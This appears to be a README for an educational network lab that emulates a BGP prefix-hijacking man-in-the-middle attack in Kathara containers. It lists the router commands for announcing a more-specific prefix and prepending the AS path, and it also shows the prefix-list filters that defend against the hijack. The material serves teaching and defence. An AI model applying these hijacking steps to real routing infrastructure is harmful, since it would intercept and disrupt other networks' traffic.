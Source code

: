 # Virtualisation of Internet Insecurity Demonstration

The lab is designed to facilitate a MITM Attack using BGP Prefix Hijacking.
![Final Network Topology Design](https://user-images.githubusercontent.com/37820793/190728275-79b66976-c6a7-4d62-a493-51138625bbfa.png)
The network topology consists of nine autonomous systems ranging from ASN-1 to ASN-9 including the ATTACKER and VICTIM ASes. The VICTIM AS is ASN-2 and the ATTACKER AS is ASN-8. Each autonomous system consists of one router and one server and all the routers are configured to be bgp speakers. Scripts are launched on the servers to execute commands via SSH on the routers to automate the MITM attack or apply prefix filters to prevent the attack. TCP dump is also set up on the DUMP-SERVER of ASN-8 to analyse hijacked traffic intended for ASN-2 once the attack is launched.

Since commands will be executed on the routers via the servers, the device.startup files of each server are used to set up SSH connections between the servers and routers and also write the python programs required to launch the attack and set up the prefix filters on the servers.

The attacker AS (ASN-8) announces 200.7.0.0/24 which is a subnet of the prefix assigned to ASN-2. This announcement will cause the prefix 200.7.0.0/16 and 200.7.0.0/24 to overlap. When prefixes overlap, BGP uses the longest prefix match rule. Due to this rule, announcing 200.7.0.0/24 will cause all the ASes to learn this route thus discarding the route to 200.7.0.0/16 previously learnt from ASN- 2’s announcement. All the traffic intended for ASN-2 will be forwarded to ASN-8.

A reply path is constructed by declaring a route path to forward the traffic to the VICTIM AS. This ensures that the attack goes unnoticed and prevents the MOAS conflict problem that may cause loops leading network downtime. ASN-8 blinds part of the network to the attack, with the aim of establishing a viable path to the victim. This is achieved by manipulating the AS Path attribute using AS Path Prepending. ASN-8 does this by announcing 200.7.0.0/24 and prepending 5, 1 and 2 to the AS path. AS 5 will not accept a route announcement that has its own AS number 5 hence it will not learn the bogus route announced by ASN-8. All traffic intended for ASN-2 will be intercepted by ASN-8 and forwarded to ASN-2 via the viable path. The dumpserver.startup file creates a python script to launch the attack and construct the the reply path.

## Basic Requirements

1. Make sure the latest version of Docker is installed - https://docs.docker.com/get-docker/
2. Python3.8 - https://www.python.org/downloads/
3. Make sure the latest version of Kathara is installed - https://www.kathara.org/

### To run this project successfully, a custom docker image must be created for kathara. Paramiko is needed to establish the SSH connection and must be installed by creating the custom docker image and running the kathara lab with this image.

1. Pull the latest kathara/quagga image:

```
$ docker pull kathara/quagga
```

2. Create copy of existing kathara/quagga image called “custom-kathara-image”:

```
$ docker run -tid --name custom-kathara-image kathara/quagga
```

3. Bash prompt for the custom-kathara-image container to manually install packages needed for this lab:

```
$ docker exec -ti custom-kathara-image bash
```

```
$ apt update
```

4. Install paramiko python module needed to send the commands via ssh to the router in the lab:

```
$ apt-get install -y python3-paramiko
```

```
$ exit
```

5. Commit the changes that have been made to the custom-kathara- image

```
$ docker commit custom-kathara-image kathara/custom-kathara-image
```

6. Remove the running container “custom-kathara-image” since the packages have now been installed:

```
$ docker rm -f custom-kathara-image
```

7. List the docker images that have been created. "kathara/custom-kathara-image" should be listed:

```
$ docker image ls
```

# Running the lab

## Lauch the MITM attack

1. To run the lab with the custom kathara image go to the lab directory, open a terminal and type:

```
$ kathara lstart -o “image=kathara/custom-kathara-image”
```

2. To lauch the attack run the following commands:

```
$ kathara connect router8
```

```
$ conf t
```

```
$ router bgp 8
```

```
$ network 200.7.0.0/24
```

```
$ ip route 200.7.0.0 255.255.255.0 216.239.32.1
```

3. The following for the as path prepend and route map:

```
$ route-map to-router5 permit 10
```

```
$ match ip address 10
```

```
$ set as-path prepend 5 1 2
```

```
$ exit
```

```
$ router bgp 8
```

```
$ neighbor 216.239.32.1 route-map to-router5 out
```

```
$ exit
```

```
$ do clear ip bgp *
```

## Automate the Attack

1. Launch the attack with the python script on the dumpserver

```
$ kathara connect dumpserver
```

```
$ python3 launchAttack.py
```

## Prevent and recover from the attack

For this lab prefix lists will be used to prevent and recover from the MITM attack and the type of prefix list to be used is ingress filters. The assumption made here is that ASN-2 has registered 200.7.0.0/16 with the Internet Routing Registry body. This means that other ASes are aware of the legitimate prefix of ASN-2 and so they use this information to create prefix-lists to filter out bogus announcements. Prefix lists are created for each neighbour of the routers and are set to reject prefixes that are greater than or equal to /17.

1. In this example an ingress filter called partialInRouter8 is created for 202.43.176.1 which is a neighbour of router 9.

```
$ kathara connect router9
```

```
$ vtysh
```

```
$ conf t
```

```
$ router bgp 9
```

```
$ neighbor 202.43.176.1 prefix-list partialInRouter8 in
```

```
$ ip prefix-list partialInRouter8 deny 200.7.0.0/17 le 32
```

```
$ ip prefix-list partialInRouter8 permit any
```

```
$ router bgp 9
```

```
$ neighbor 180.20.20.5 prefix-list partialInRouter6 in
```

```
$ ip prefix-list partialInRouter6 deny 200.7.0.0/17 le 32
```

```
$ ip prefix-list partialInRouter6 permit any
```

```
$ do clear ip bgp *
```

```
$ exit
```

Python scripts to apply prefix lists are created on each of the dumpservers of the routers except the the attacker AS (AS-8).

## Run the lab with the python script developed - Make sure docker is up and running.

1. To install the python virtual environment package go to the lab directory and type:

```

$ python3 -m pip install virtualenv

```

2. To create a virtual environment type:

```

$ python3 -m venv venv

```

3. To activate the virtual environment type:

```

$ source venv/bin/activate.

```

4. To install packages required for project type:

```

$ python -m pip install -r requirements.txt

```

5. To start the python program type:

```

$ python graph.py

```

6. To view the tool in the browser, go to port 5050 on your localhost (eg. 127.0.0.1:5050)
7. Press play at the button left corner to render the canvas. (Depending on your screen resolution, you may have to zoom out to 90% to view the full topology).
8. First of all, click the startbutton to start the lab and display the network topology.
9. Afterwards, depending on what you want to test you can either click the Apply Route Filters, Display Route Path, Launch Attack or Stop the Lab.
